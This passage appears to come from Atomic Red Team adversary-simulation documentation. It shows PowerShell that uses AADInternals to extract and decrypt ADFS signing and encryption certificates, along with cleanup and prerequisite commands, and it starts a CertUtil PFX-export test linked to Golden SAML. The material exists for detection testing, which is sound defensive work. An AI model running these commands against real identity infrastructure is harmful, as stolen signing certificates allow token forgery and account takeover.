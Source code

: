 ```powershell
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
# Get encrypted certificates from configuration and decrypt them
Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $key
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```

#### Cleanup Commands:

```powershell
Remove-Item -Path ".\ADFS_encryption.pfx" -ErrorAction Ignore
Remove-Item -Path ".\ADFS_signing.pfx" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: AADInternals and ActiveDirectory modules must be installed.

##### Check Prereq Commands:

```powershell
if ($(Get-Module AADInternals) -or $(Get-Module -ListAvailable -Name ActiveDirectory)) {echo 0} else {echo 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AADInternals -Force
```

<br/>
<br/>

## Atomic Test #11 - CertUtil ExportPFX

The following Atomic test simulates adding a generic non-malicious certificate to the Root certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog. In addition, this Atomic utilizes CertUtil to export the PFX (ExportPFX), similar to what was seen in the Golden SAML attack.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec
Reference: https://www.splunk.com/en_us/blog/security/a-golden-saml-journey-solarwinds-continued.html

**Supported Platforms:** Windows

**auto_generated_guid:** 336b25bf-4514-4684-8924-474974f28137

#### Inputs:
